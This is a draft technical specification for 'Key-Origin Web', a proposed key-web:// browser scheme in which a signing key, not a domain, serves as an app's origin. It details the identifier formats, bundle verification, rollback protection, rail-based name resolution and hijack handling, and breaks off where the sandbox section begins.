


<!-- SPDX-License-Identifier: BSD-3-Clause -->
<!-- Copyright (c) 2026 The Key-Origin Web Authors. See LICENSE in this directory. -->

# Key-Origin Web: Architecture Specification

**Unprivileged Signed Web Bundles (`key-web://`)**

| | |
|---|---|
| **Status** | Draft specification, v0.2 (November 2026). Not a standard. v0.2 adds human-readable, rail-resolved names (§1.7) and moves the canonical key URL to `key-web://<kw-id>.key/`. |
| **Grounding** | Format and engine claims are checked against Chromium `160.0.8176.0` source. Exact files and line numbers are in [CHROMIUM-160-BLUEPRINT.md](CHROMIUM-160-BLUEPRINT.md). |
| **Companions** | [EXPLAINER.md](EXPLAINER.md) · [CHROMIUM-160-BLUEPRINT.md](CHROMIUM-160-BLUEPRINT.md) · [THREAT-MODEL.md](THREAT-MODEL.md) |

---

## 0. Preliminaries

### 0.1 Conventions

The key words **MUST**, **MUST NOT**, **SHOULD**, **SHOULD NOT**, and **MAY** are to be interpreted as described in RFC 2119 and RFC 8174 when, and only when, they appear in all capitals.

- **UA** means user agent: the browser, or the Layer A SuperFrame shell acting as one.
- **dCBOR** means deterministically encoded CBOR (RFC 8949 §4.2.1 core deterministic encoding).
- Structures are written in CDDL (RFC 8610).
- `b32(x)` is RFC 4648 base32 with the padding removed, converted to lowercase. This is exactly the encoding of `web_package::SignedWebBundleId`.
- `H256` is SHA-256 and `H512` is SHA-512.
- Durations are in seconds, and times are Unix seconds (UTC).

### 0.2 Design goals

| # | Goal |
|---|---|
| **G1** | An app's identity (its origin) is a **key**. It is never a domain name or a server. |
| **G2** | **Transport independence.** Verification depends only on bytes and locally held state, never on where the bytes came from. |
| **G3** | **Tier 0 has zero network egress**, so it is safe to open from any link with no install or permission prompt. |
| **G4** | Every egress beyond Tier 0 is an **explicit, scoped, revocable, auditable capability**. No ambient origin authority. |
| **G5** | **Monotonic updates.** No silent rollback, and no code targeted at one user unless the attacker has the signing key. |
| **G6** | **Recoverability.** Losing or compromising a key never forces an origin change, so user data is not orphaned (K-SAID identities). |
| **G7** | **Local-first.** User data never depends on any server's continued existence. |
| **G8** | **Reuse what ships.** Integrity Block v2, `SignedWebBundleId`, `SignedWebBundleReader`, and `Connection-Allowlist`. No new formats where existing ones suffice. |
| **G9** | **Human-shareable links that never own anything.** People share `key-web://cool-site.lukeinth.at/`. The browser resolves that name over any social or DHT rail, but the origin, storage, CSP, and grants are anchored **only** to the app key (§1.7). |

**Non-goals.**

- Defending against memory-safety exploits in the UA. Those belong to the existing sandbox and site isolation.
- Network-level anonymity during bundle resolution. It is best-effort only (§3.9).
- Physical side channels such as acoustic or optical leaks (see THREAT-MODEL §T6).
- DRM, or hiding app code from the user.

### 0.3 Architecture at a glance



---

## 1. Origin & URL Scheme (`key-web://<kw-id>.key/`, plus human names)

A `key-web` URL has one of two kinds of host. Only the first kind can ever become an origin:

| Layer | Form | Example | Can be an origin? |
|---|---|---|---|
| **Key URL** (canonical, self-certifying) | `key-web://<kw-id>.key/<path>` | `key-web://mix2p32okr3zpmwz3pily6bmbjlfrjvpyzljdkc4mzvpkb6lf2mqaaic.key/` | **Yes. It is the only form that can be an origin.** |
| **Name URL** (human, shareable) | `key-web://<app-slug>.<publisher>[.<rail>]/<path>` | `key-web://cool-site.lukeinth.at/` | **Never.** Navigation input and display only (§1.7). |

### 1.1 Scheme properties

The UA registers `key-web` as a URL scheme with the following properties. The names refer to `content::ContentClient::Schemes` in M160.

| Property | Value | Rationale |
|---|---|---|
| Standard (host-bearing) scheme | **MUST** | It must have a host, so that `url::Origin` is a tuple and not opaque. |
| Secure scheme (potentially trustworthy) | **MUST** | Required for secure-context APIs such as Service Workers, `crypto.subtle`, and OPFS. |
| Service-worker scheme | **MUST** | Offline-first behaviour and in-app routing. |
| CORS-enabled scheme | **MUST** | `fetch()` of same-origin resources. |
| Web-storage scheme | **MUST** | `localStorage`, IndexedDB, and so on. |
| **Isolated-app scheme** | **MUST NOT** | Key-web documents **MUST NOT** be isolated contexts. `IsIsolatedContext()` **MUST** be `false`, so no `[IsolatedContext]` API is exposed. |
| CSP-bypassing scheme | **MUST NOT** | Key-web resources must stay subject to CSP. |
| Port | none | The UA **MUST** reject `key-web` URLs that carry a port or userinfo. |

`sweb://` was considered as an alias and **rejected**. One key must map to exactly one origin. An alias scheme would split storage and permissions, and would create a phishing surface where the same key appears under two origins.

### 1.2 Identifier types

A key-web ID is `b32(payload ‖ type_suffix)`, using the same three-byte type-suffix scheme as `web_package::SignedWebBundleId`.

| Type | Suffix | Payload | Encoded length | Ends with | Status |
|---|---|---|---|---|---|
| **K-ED** (direct Ed25519) | `00 01 02` | 32-byte Ed25519 public key | 56 chars | `…aaic` | Byte-identical to IWA IDs (`Type::kEd25519PublicKey`) |
| **K-P256** (direct ECDSA P-256) | `00 02 02` | 33-byte compressed P-256 key | 58 chars | (varies) | Identical to IWA `Type::kEcdsaP256PublicKey`. Useful for hardware or OS keystores. |
| **K-SAID** (self-addressing log identity) | `00 03 02` | 32-byte `H256` digest of the inception event (§4.2) | 56 chars | `…aayc` | **New and provisional.** The suffix value must be coordinated upstream before any interoperable deployment. |
| Proxy / dev mode | `00 00 02` | n/a | 56 chars | n/a | **MUST** be rejected by `key-web` loaders. |

Worked examples. These are not real keys; each payload is `H256` of a fixed public string.

```
K-ED   : mix2p32okr3zpmwz3pily6bmbjlfrjvpyzljdkc4mzvpkb6lf2mqaaic   (56)
K-SAID : bti22jqs6sra7zgmmebv74hg3my7sspomssfok42hnt5obyrh3hqaayc   (56)

Key URL: key-web://mix2p32okr3zpmwz3pily6bmbjlfrjvpyzljdkc4mzvpkb6lf2mqaaic.key/
```

**Profiles.**

- **K-ED and K-P256** are the *simple profile*. They have no rotation, and tombstoning is self-signed (§4.7). Use them for short-lived or experimental apps.
- **K-SAID** is the *durable profile*, and is **RECOMMENDED** for anything that holds user data long-term (G6).

### 1.3 URL grammar

```abnf
key-web-url   = "key-web://" kw-host path-abempty [ "?" query ] [ "#" fragment ]
kw-host       = key-host / name-host

; --- Key URL: the ONLY host form that can become an origin ---
key-host      = kw-id ".key"
kw-id         = 56*58( %x61-7A / %x32-37 )   ; lowercase base32 alphabet a-z, 2-7

; --- Name URL: navigation/display only, never an origin (§1.7) ---
name-host     = app-slug "." publisher [ "." rail ]
app-slug      = ldh-label                       ; [a-z0-9] ( [a-z0-9-]* [a-z0-9] )?, 1..40 chars, ASCII
publisher     = ldh-label *( "." ldh-label )
rail          = "dht" / "nostr" / "local"       ; reserved rail labels; absent => "at" (§1.7.2)
; path-abempty, query, fragment: RFC 3986
```

1. The UA **MUST** canonicalize the host to lowercase.
2. **Key URLs.** The UA **MUST** reject a key URL if `SignedWebBundleId`-style parsing of `kw-id` fails: wrong length, a bad alphabet character, or an unknown or disallowed suffix. The origin is the tuple `("key-web", "<kw-id>.key", null)`, serialized as `key-web://<kw-id>.key`.
3. **Name URLs** are resolved (§1.7.5) and then **internally redirected** to the key URL with the same path, query, and fragment (minus directives). A name URL **MUST NOT** become the URL of a committed document, a worker, or a request initiator. It **MUST NOT** be used as a subresource URL.
4. A bare `key-web://<kw-id>.key/` (no `.key`) **MAY** be accepted as typed input and rewritten to the key URL. The two-label host `<kw-id>.key` is always the serialized form.
5. **Resolution hints never change the origin.** A URL **MAY** carry fragment directives: `#:~:kw=<hints>` (§3.2) and `#:~:pin=<pin>` (§1.7.6). They follow the precedent of Text Fragments' `:~:`. The UA **MUST** strip them before any document observes `location`.
6. Version pins (`seq`, `bundleHash`) are hints only. A pinned URL and an unpinned URL name the **same origin**.

### 1.4 Key derivation

- **K-ED:** `id = b32(ed25519_pk ‖ 00 01 02)`. This is `SignedWebBundleId::CreateForPublicKey(Ed25519PublicKey)`.
- **K-P256:** `id = b32(p256_compressed_pk ‖ 00 02 02)`.
- **K-SAID:** `id = b32(H256(dCBOR(icp′)) ‖ 00 03 02)`. Here `icp′` is the inception event with its `d` (self-digest) field set to 32 zero bytes. The final event carries `d = H256(dCBOR(icp′))`. This is the KERI "self-addressing identifier" construction, using SHA-256 because it is already in the UA's TCB.

Key generation: Ed25519 per RFC 8032, seeded from a CSPRNG. K-SAID creators **MUST** generate the *next* key set at inception (§4.3) and **SHOULD** store it offline.

### 1.5 Bundle format and Integrity Block v2 compatibility

A key-web release is a standard **Signed Web Bundle**: a CBOR sequence made of an Integrity Block v2 followed by a Web Bundle. The only addition is one extra integrity-block attribute.

```
┌───────────────────────────── Integrity Block v2 ─────────────────────────────┐
│ magic  F0 9F 96 8B F0 9F 93 A6  ("🖋📦")                                     │
│ version "2b\0\0"                                                             │
│ attributes {                                                                 │
│    "webBundleId": "<kw-id>",                         ; required (M160)       │
│    "keyWeb":      key-web-attr                       ; required (this spec)  │
│ }                                                                            │
│ signature-stack [ +{ {"ed25519PublicKey": pk} , sig } ]                      │
└──────────────────────────────────────────────────────────────────────────────┘
┌───────────────────────────── Web Bundle (unsigned) ──────────────────────────┐
│ index, responses (relative URLs; base = key-web://<kw-id>.key/), ...             │
└──────────────────────────────────────────────────────────────────────────────┘
```

```cddl
key-web-attr = {
  "v"      : 1,
  "seq"    : uint,                       ; monotonic release sequence (§1.6)
  "prev"   : bstr .size 64 / null,       ; H512 of the previous release's unsigned bundle
  ? "kel"  : [+ signed-event],           ; REQUIRED for K-SAID (§4.2); absent for K-ED/K-P256
  ? "fresh": { "nb": uint, "exp": uint },; optional freshness window (§1.6.4)
  ? "minUa": tstr                        ; optional minimum key-web spec version
}
```

**Why this is wire-compatible with M160.**

- The M160 Rust parser looks up only `webBundleId` in the attributes map, and it tolerates other keys.
- It also retains the full attributes CBOR (`attributes_cbor`).
- The signature payload is `len‖H512(unsigned bundle) ‖ len‖integrity-block-CBOR-with-empty-stack ‖ len‖signature-attributes`. The second item embeds the attributes map, so **`keyWeb` is covered by every signature**.
- The integrity block size limit (`kMaxIntegrityBlockSize`, 1 MiB) bounds the embedded KEL.

**Author-intent binding.**

- A UA **MUST NOT** load a bundle as `key-web` unless the `keyWeb` attribute is present. This stops an existing IWA bundle, written to expect Tier 2 powers, from being replayed into a context its author never targeted.
- Conversely, an M160 IWA installer ignores `keyWeb`, so a K-ED key-web bundle *can* be installed as an IWA. If that happens, it becomes the **different origin** `isolated-app://<same-id>` and goes through the full IWA install ceremony. This is acceptable, and documented in THREAT-MODEL §T10.

**Verification procedure** (normative; the UA **MUST** perform all steps):

1. Parse the Integrity Block v2, reject the bundle if it is larger than 1 MiB, and reject it if the first signature has an unknown type.
2. Parse `webBundleId` as a key-web ID (§1.3). It **MUST** equal the ID of the origin being loaded.
3. Parse `keyWeb`. Reject the bundle if it is missing or malformed.
4. Compute `bundleHash = H512(unsigned bundle)`, and verify every recognized signature over the M160 signature payload.
5. **Identity check:**
   - **K-ED / K-P256:** some valid signature's public key **MUST** derive to `webBundleId`.
   - **K-SAID:** validate `keyWeb.kel` (§4.5). Derive the *current key state* at the UA's current time. At least `kt` distinct current keys **MUST** have valid signatures in the stack.
6. **Acceptance:** apply the ordering and rollback rules (§1.6).
7. Parse the Web Bundle metadata with base URL `key-web://<kw-id>.key/`. Every response URL **MUST** be same-origin.
8. Record the verified release in the release store (§3.8).

### 1.6 Immutable content hashes vs. mutable key-signed versions

There are two kinds of identifier, and they **MUST NOT** be confused:

| | Immutable **content address** | Mutable **key-signed head** |
|---|---|---|
| Names | One exact release | "The latest release the key holder has signed and this UA has accepted" |
| Value | `bundleHash = H512(unsigned bundle)`, written `kwc:sha512-<base64url>` | The origin `key-web://<kw-id>.key` |
| Who can change it | Nobody | The current key holder(s), monotonically |
| Used for | Caching, dedup, pinning, multi-source fetch, audits | Navigation, storage, permissions |

#### 1.6.1 Ordering key

Each accepted release is ordered by the tuple **`(kelSn, seq)`**:

- `kelSn` is the sequence number of the latest establishment event (`icp`, `rot`, or effective `rec`) under which the bundle is valid. It is `0` for K-ED and K-P256.
- `seq` is `keyWeb.seq`.
- The comparison is lexicographic.

Putting `kelSn` first means that a thief who signed `seq = 2⁶³` with a key that has since been rotated out loses to the honest `(kelSn+1, 1)`.

#### 1.6.2 High-water mark (HWM) and rollback protection

For each ID, the UA persists `HWM = { kelSn, kelTip, seq, bundleHash }` in a **trust store**. This is separate from site data (§2.9).

| Candidate `(kelSn, seq)` vs. HWM | Same `bundleHash`? | Action |
|---|---|---|
| greater | n/a | **Accept** as the new head. Update the HWM. |
| equal | yes | Accept (same release, for example a re-download). |
| equal | **no** | **Equivocation.** Reject the candidate and keep the current head. Record evidence (both integrity blocks). Raise a security notice (§4.6). |
| less | n/a | **Reject (rollback).** The UA **MAY** offer a *user-initiated* downgrade behind an explicit warning. Such a downgrade never lowers the HWM. |

`prev` linkage: when `seq == HWM.seq + 1` and `prev ≠ HWM.bundleHash`, the UA **SHOULD** warn about a fork. This is not fatal, because a UA may have missed intermediate releases.

#### 1.6.3 HWM persistence

- The HWM **MUST** survive "clear site data" for that origin, because otherwise clearing data would enable rollback.
- It **MUST** be removed by "forget this app", which also deletes the partition and the grants.
- The HWM reveals which apps were used, so it is cleared together with browsing history when the user clears **all** history.

#### 1.6.4 Freshness (anti-freeze)

If `keyWeb.fresh` is present and the current time is past `exp`:

- The UA **MUST** still run the accepted release (G7: never brick).
- It **SHOULD** show an "update overdue" indicator.
- It **SHOULD** attempt resolution from additional sources (§3.7).

Freshness only signals a possible freeze attack, and it **MUST NOT** disable the app.

### 1.7 Human-readable names: resolve by rail, anchor to the key

Raw `…aaic.key` hosts are self-certifying but hard to read, check, or share in a chat app. Name URLs fix the *human* problem without reopening the *authority* problem. The rule this whole section serves:

> **Resolve by social or DHT rail. Anchor origin and storage strictly to the cryptographic key.**
> A name is a *question* ("which key does `lukeinth.at` say is `cool-site`?"). It is never an *identity*. The answer is checked against cryptographic evidence, and only the key it yields can own an origin, a `StoragePartition`, a CSP context, or a grant.

#### 1.7.1 Actors and keys

| Symbol | Meaning |
|---|---|
| **K_app** | The app identity: a `kw-id` (K-ED, K-P256, or K-SAID, §1.2). It owns the origin `key-web://<kw-id>.key`. |
| **K_pub** | The publisher identity: a `kw-id`-format identity for a person or organisation. K-SAID is **RECOMMENDED**, so the publisher can rotate keys (§4) without breaking any names. |
| **App Record** | Signed by K_pub: "my app called `<slug>` is `K_app`". |
| **Publisher Document** | Signed by K_pub: "these are my handles on each rail" (the **rail map**). |
| **Publisher claim** | Inside K_app's signed Key-Web Manifest: "my publisher is K_pub, and my slug is `<slug>`". This makes the binding **bidirectional**. |

#### 1.7.2 Rails and how a name host is parsed

Parse `name-host` as `<app-slug>.<rest>`. If the last label of `<rest>` is a reserved rail label (`dht`, `nostr`, or `local`), that is the rail, and the labels before it are the publisher. Otherwise the rail is **`at`**, and `<rest>` is the publisher's ATProto handle.

| Rail | Badge | Name example | Publisher label resolves via | Self-certifying? | Availability depends on |
|---|---|---|---|---|---|
| **`at`** (default) | **AT** | `key-web://cool-site.lukeinth.at/` (ATProto handle `lukeinth.at`), `key-web://notes.alice.bsky.social/` | Handle → DID (`_atproto` DNS TXT or `/.well-known/atproto-did`) → DID document (did:plc or did:web) → PDS → records `<nsid>.publisher/self` and `<nsid>.app/<slug>`. The NSID lives under a domain the project controls; the placeholder name is `org.example.keyweb.*`. | **No.** It is DNS- and PLC-anchored. Our K_pub signature inside the record supplies the authenticity. | DNS for the handle, the PLC directory (for did:plc), and the PDS |
| **`dht`** | **DHT** | `key-web://cool-site.lukeinth.dht/`, `key-web://cool-site.<52-char-z-base32>.dht/` | **PKARR**: a signed DNS packet under an Ed25519 key, stored as a BEP 44 mutable item on Mainline DHT (or a PKARR relay or Iroh DNS). The label is either the PKARR key itself (52 chars, which fits a label) or a **short alias learned earlier** (§1.7.7). | **Yes**, when the label is the key. A short alias is only as good as how it was learned. | Any DHT node or PKARR relay |
| **`nostr`** | **Nostr** | `key-web://cool-site.lukeinth.nostr/`, `key-web://cool-site.npub1….nostr/` (63 chars, which fits exactly), `key-web://cool-site.lukeinth.example.com.nostr/` (NIP-05 `lukeinth@example.com`) | Addressable event (kind in 30000–39999, number TBD) with `d` = slug, signed by the npub. Its content is the App Record. A separate event cross-signs npub ↔ K_pub. | **Yes** for an `npub` label. NIP-05 is DNS-anchored. A short alias is learned. | Any relay that carries the events |
| **`local`** | **Local** | `key-web://cool-site.mom.local/` | The **user's publisher book** (petname → K_pub), LAN mDNS (`_key-web._tcp.local` TXT `pub=…` plus the signed records fetched from that host), or an out-of-band `.kwname` file | **Yes** (the petname is user-assigned) | Nothing remote |
| **`key`** | **Key** | `key-web://<kw-id>.key/` | No resolution. This is the key URL itself. | **Yes** | Nothing |

**Notes.**

1. **The `.at` example works because `lukeinth.at` is itself the handle.** ATProto handles need at least two labels, so a bare `lukeinth` followed by an `.at` rail marker could never resolve. Making `at` the default rail keeps every ATProto handle short and unambiguous. (`.at` is also Austria's country-code TLD; inside `key-web://` no DNS lookup is ever made on the *name host*, only on the handle during resolution.)
2. Handles whose last label is `dht`, `nostr`, `local`, or `key` cannot be used on the `at` rail. `.local` is disallowed by ATProto anyway, and the other three are not delegated TLDs today. If one is ever delegated, the reserved rail meaning wins inside `key-web://`.
3. Name labels are ASCII. `xn--` labels **MUST** be displayed in their punycode form, never decoded to Unicode (anti-homograph).
4. `.local` names mean different things on different devices. The UA **MUST NOT** offer a `.local` link for sharing. Its share action converts it to a portable rail name or to a pinned `.key` link.

#### 1.7.3 Signed records

```cddl
publisher-doc = {
  "t"     : "kw-publisher/1",
  "pub"   : tstr,                         ; K_pub as a kw-id
  ? "kel" : [+ signed-event],             ; required if K_pub is K-SAID (§4.2)
  "seq"   : uint,                         ; monotonic
  "rails" : {
     ? "at"    : { "handle": tstr, "did": tstr },
     ? "dht"   : { "pkarr": tstr },       ; z-base32 Ed25519; SHOULD equal K_pub when K_pub is K-ED
     ? "nostr" : { "npub": tstr, ? "nip05": tstr }
  },
  "sigs"  : [+ { "i": uint, "s": bstr }]  ; current K_pub keys, ctx "key-web/publisher/v1\0"
}

app-record = {
  "t"     : "kw-app/1",
  "pub"   : tstr,                         ; K_pub
  "slug"  : tstr,                         ; app-slug
  "app"   : tstr,                         ; K_app kw-id
  "seq"   : uint,                         ; monotonic per (pub, slug)
  ? "loc" : locator,                      ; §3.2 bundle locator(s)
  "sigs"  : [+ { "i": uint, "s": bstr }]  ; current K_pub keys, ctx "key-web/app-record/v1\0"
}
```

Each rail carries **the same signed bytes**. The rail's own signature (ATProto repo commit, PKARR packet, Nostr event) is a transport check. **Authenticity comes only from the K_pub signature**, verified under K_pub's KEL state. PKARR packets are limited to 1000 bytes, so on the `dht` rail an App Record **SHOULD** omit `loc` (or carry only a `bundleHash`).

The Key-Web Manifest (§2.11.3) gains a publisher claim:

```json
{ "publisher": { "pub": "<K_pub kw-id>", "slug": "cool-site" } }
```

#### 1.7.4 What the name may and may not influence

| Influenced by the name | Anchored strictly to K_app, **never** the name |
|---|---|
| Which K_app to open (subject to §1.7.5) | `url::Origin`, `location.origin`, `document.domain` |
| Omnibox and share display, and badges | `StoragePartition` (OPFS, IndexedDB, Cache Storage, localStorage) |
| Attribution ("by lukeinth.at"), when bidirectional | CSP `'self'`, Connection-Allowlist `response-origin` |
| Which rails are queried | Permissions, `xe-cap` grants, the egress ledger |
| Bundle locator hints | HWM, KEL, and release acceptance (§1.5–1.6) |

#### 1.7.5 Resolution algorithm (normative)

```text
function open_name(url):                      # url.host is a name-host
  (slug, publisher, rail) = parse(url.host)              # §1.7.2
  pin  = take_fragment_directive(url, "pin")             # §1.7.6, stripped
  name = (slug, publisher, rail)

  # 1. Ask the rail (untrusted). The publisher book may supply K_pub for short aliases.
  (pdoc, rec) = rail_resolve(rail, publisher, slug)       # signed bytes only
  require verify(pdoc, K_pub-state(pdoc.pub)) and verify(rec, K_pub-state(rec.pub))
  require rec.pub == pdoc.pub and rail_handle_listed(pdoc, rail, publisher)
  K_pub = rec.pub ; K_app = rec.app

  # 2. First-click zero-trust pin.
  if pin and not pin_matches(pin, K_app): FAIL_CLOSED("pin mismatch")

  # 3. Hijack check against what this UA already knows.
  b = binding_store[name] or binding_store[(K_pub, slug)]
  if b and b.K_app != K_app:
      if not succession_proven(b.K_app, K_app):           # §1.7.8
          FAIL_CLOSED("key mismatch", known=b.K_app, offered=K_app, rail=rail)
  if b and b.K_pub != K_pub and not publisher_rotation_proven(b.K_pub, K_pub):
      ATTRIBUTION_SUSPENDED()                             # K_app unchanged → origin unchanged

  # 4. Bind, then redirect. The name never becomes an origin.
  binding_store.upsert(name, (K_pub, slug) → K_app, evidence=[rail, pin?, time])
  background: cross_check_other_rails(pdoc.rails, slug, K_app)   # §1.7.9 badges
  return INTERNAL_REDIRECT("key-web://" + K_app + ".key" + url.path_query_fragment)
```

`FAIL_CLOSED` means all of the following:

- **No** navigation to the offered key under the familiar name.
- **No** access to K_app's partition, grants, or display identity for the offered key. This is structurally guaranteed, because the offered key would be a different origin.
- A browser-owned **cryptographic mismatch** interstitial that shows the known K_app (identicon plus fingerprint), the offered key, the reporting rail, and what the other rails report.
- Three choices:
  1. **Open the app I know.** Run the cached release of the known K_app. This is the default.
  2. **Open the new key as a separate, unrelated app.** Requires a deliberate second step, and starts with empty storage and no grants.
  3. **Cancel.**
- The binding is **not** updated unless the user picks option 2 *and* confirms re-binding.

#### 1.7.6 Pins: zero-trust first click

A share link **MAY** carry a pin that commits to K_app:

```
key-web://cool-site.lukeinth.at/#:~:pin=e4g5saaasdl6ahelvnt4
pin = b32( H256( "key-web-pin/v1\0" ‖ kw-id-ascii ) )[0 .. n]     ; n ≥ 16 chars (80 bits)

; test vector: kw-id mix2p32okr3zpmwz3pily6bmbjlfrjvpyzljdkc4mzvpkb6lf2mqaaic
;   pin16 = e4g5saaasdl6ahel      pin20 = e4g5saaasdl6ahelvnt4
```

- **Minimum 16 characters (80 bits).** Below that, an attacker who controls a rail could grind keys to collide with the pin. Share sheets **SHOULD** emit 20 characters (100 bits).
- The pin travels in a **fragment directive**:
  - it is never sent to any server, including link-preview gateways;
  - the UA strips it before the app sees `location`;
  - it can't collide with in-app `#routes`.
- For compatibility with hand-typed links, a UA **MAY** treat a name URL whose *entire* fragment is `pin=<value>` as a pin, and strip it.
- A matching pin turns first contact from TOFU into **verified first contact**. The binding is stored with `evidence: pin`.

#### 1.7.7 Publisher book (local name state)

The UA keeps, per profile:

- `alias → K_pub`, learned from a verified Publisher Document (its rail map) or set by the user (petnames for `.local`);
- `(K_pub, slug) → K_app` bindings, with evidence (rails seen, pin, first-seen time);
- the `K_app → display name` cache used by the omnibox.

**Cross-rail equivalence follows directly.** Once `cool-site.lukeinth.at` has resolved, the verified rail map tells the UA that `lukeinth` is also `<pkarr-key>` on `dht` and `npub1…` on `nostr`. So `key-web://cool-site.lukeinth.dht/` resolves to the **same K_app**, the same origin, and the same data, **even if every `.at` dependency (DNS, PLC, PDS) is down.** A *first-time* user without that state needs a self-certifying label (`<pkarr-key>.dht`, `npub1….nostr`), a pin, or a working rail.

#### 1.7.8 Hijack immunity and legitimate change

| Event at the rail | UA behaviour |
|---|---|
| `lukeinth.at` handle is reassigned or its DNS hijacked, now pointing to a DID whose records are signed by **K_evil ≠ K_pub** | The App Record doesn't verify under the known K_pub, and the rail map no longer matches. **Fail closed** (§1.7.5): the name is "unresolvable / mismatch". Other rails continue to work. |
| A valid K_pub-signed record now says `cool-site` → **K_app′ ≠ K_app** | Accept **only** if a succession proof exists: K_app's KEL ends in a `tomb` with `successor = K_app′`, signed per §4.3 by next keys or guardians, never by current keys alone. For K-ED: a self-signed tombstone, which is the documented K-ED weakness, T4. Otherwise **fail closed**. With a proof, the UA offers the data migration of §4.7. It never switches silently. |
| K_app rotates keys (K-SAID `rot` / `rec`) | **Nothing changes.** The kw-id, origin, and data are identical. The record keeps pointing to the same kw-id. |
| K_pub rotates (K-SAID) | Verified through K_pub's KEL. Attribution continues. |
| K_pub "changes" with no KEL proof, while K_app is the same | Origin and data are unaffected. Attribution is suspended. The badge shows **"publisher key changed"**. |
| Rails disagree (`.at` says K_app, `.dht` says K_x) | Use the binding store. If there is no binding and no pin, **refuse** to bind, and show **"rails disagree"** with both answers. |

#### 1.7.9 Display and sharing

**Omnibox and tab:** `cool-site · lukeinth.at`, followed by **badges**:

| Badge | Meaning | Source |
|---|---|---|
| **AT** / **DHT** / **Nostr** / **Local** / **Key** | The rail this tab was resolved through | §1.7.2 |
| **pinned** | A pin matched (now or at first contact) | §1.7.6 |
| **2 rails agree** | Background cross-checks of other rails in the rail map returned the same K_app | §1.7.5 |
| **3 people you follow vouch** | Valid attestations from keys in the **user's own** trust graph. Raw global counts are never shown, because they are Sybil-prone. | §4.8 edge names |
| **by lukeinth.at ✓** vs **listed by lukeinth.at** | Bidirectional publisher claim present vs. absent | §1.7.3 |
| ⚠ **publisher key changed** / ⚠ **rails disagree** | §1.7.8 states | §1.7.8 |

- A user-set **petname** takes precedence: `My Notes  (cool-site · lukeinth.at)`.
- Clicking the badge opens page info: the full K_app fingerprint and identicon, K_pub, the rails checked, pin status, and first-seen.
- The *committed* URL is always the key URL. Pages see `location.origin === "key-web://<kw-id>.key"`. The human name is a **display-layer** rewrite and is never visible to page script.

**Sharing.**

- The UA's share action emits the human link plus a pin: `key-web://cool-site.lukeinth.at/#:~:pin=<20 chars>`.
- It **MAY** also emit an `https://` **share-card gateway** form, because many chat apps only linkify `http(s)` URLs and build previews from server-fetched HTML:

  ```
  https://<any-static-gateway>/k/cool-site.lukeinth.at#:~:pin=<20 chars>
  ```

- A gateway is a static page:
  - it shows a preview card built from the App Record's self-claimed name;
  - its "Open" button hands off to `key-web://` (or `web+kw://` in Layer A).
- Gateways are **untrusted**:
  - the UA re-resolves and re-verifies everything, including the pin;
  - the pin travels in the fragment, so the gateway's server never receives it;
  - any number of mirrors can serve the same static page.
- A gateway that goes down only breaks previews, never the app.

---

## 2. The Exfiltration-Proof Default Sandbox & Capability Escalation Model

### 2.1 Premise

App code is **untrusted**. What the user types into it is **sensitive**. **Network egress** is the hazard. A Tier 0 document **MUST** have no channel through which it can cause a network transmission whose destination or content it influences, with the exceptions listed in §2.10 as user-mediated or residual.

### 2.2 Defense layers

No single mechanism covers every egress path, so the sandbox stacks six independent layers:

```
 ┌────────────────────────────────────────────────────────────────────────────┐
 │ L1  CSP (renderer)            fetch/XHR/WebSocket/img/css/font/media/form  │
 │ L2  Connection-Allowlist      network-service chokepoint: DNS resolution,  │
 │     (network service)         preconnect, prefetch, WebTransport, WebRTC   │
 │ L3  Navigation Gate (browser) top-level & popup navigations, external      │
 │                               protocols, form targets, Refresh             │
 │ L4  Permissions Policy +      device/sensor/payment/credential/share APIs  │
 │     API gating                                                             │
 │ L5  Response-header sanitizer reporting endpoints, Link hints, NEL, etc.   │
 │ L6  Process + storage         site-per-key process lock, key-scoped        │
